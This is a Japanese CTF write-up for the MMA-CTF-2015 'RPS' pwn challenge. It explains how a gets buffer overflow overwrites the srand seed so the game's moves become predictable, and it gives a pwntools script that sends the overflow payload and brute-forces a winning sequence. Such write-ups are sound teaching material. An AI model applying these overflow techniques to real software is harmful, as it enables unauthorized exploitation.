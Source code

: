 ```yaml
---
layout: post
alias: "/blog/2016/09/02/mma-ctf-2015-rps/"
date: "2016-09-02T20:30:59+09:00"
title: "MMA-CTF-2015: RPS"
tags: [ "ctf", "writeup", "pwn", "mmactf", "rand", "prng-prediction" ]
"target_url": [ "https://github.com/ctfs/write-ups-2015/tree/master/mma-ctf-2015/pwn/rps-50" ]
---
```


解けず。seedを操作できていることに気付いていなかった。`srand`が見えたときに乱数予測は思い受かんだのだが、`/dev/urandom`を見て消してしまった。

bofからのropができるので、それを考えてしまっていた。
`flag.txt`を読んで書き出す処理をする部分があるのでここに飛ばしたいが、`gets`によるbofでかつ位置が`0x400a9a`なので書き込めず飛ばせない。
gadgetがあまりないので厳しく、以下なら可能だと判断したが、明らかに$50$点問題のそれではなかったのでwriteupを見た。

-   stack pivotしながらlibc baseを特定し`mmap`からの再度stack pivotでshellを取る
-   `gets`と`printf`の`%n`指定子による書き込みで`flag.txt`の読み出しアドレスを作る

## solution

buffer overflowにより`srand`のseedを操作できる。出してくる手は固定なので全勝できる。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

payload = ''
payload += 'A' * 0x30 # name
payload += p64(0) # seed
assert payload.find('\n') == -1

def play(s, cont=(lambda p: None)):
    p = process('./rps')
    p.recvuntil("What's your name: ")
    p.sendline(payload)
    for i, c in enumerate(s):
        p.recvuntil('Rock? Paper? Scissors? [RPS]')
        p.sendline(c)
        p.recvline()
        if p.recvline().strip() != 'You win!!':
            p.close()
            return i
    cont(p)
    p.close()
    return len(s)

s = ''
while len(s) < 50:
    for c in 'RPS':
        t = s + c * (50 - len(s))
        l = play(t)
        s = t[ : l]
play(s, lambda p: p.recvall())
```
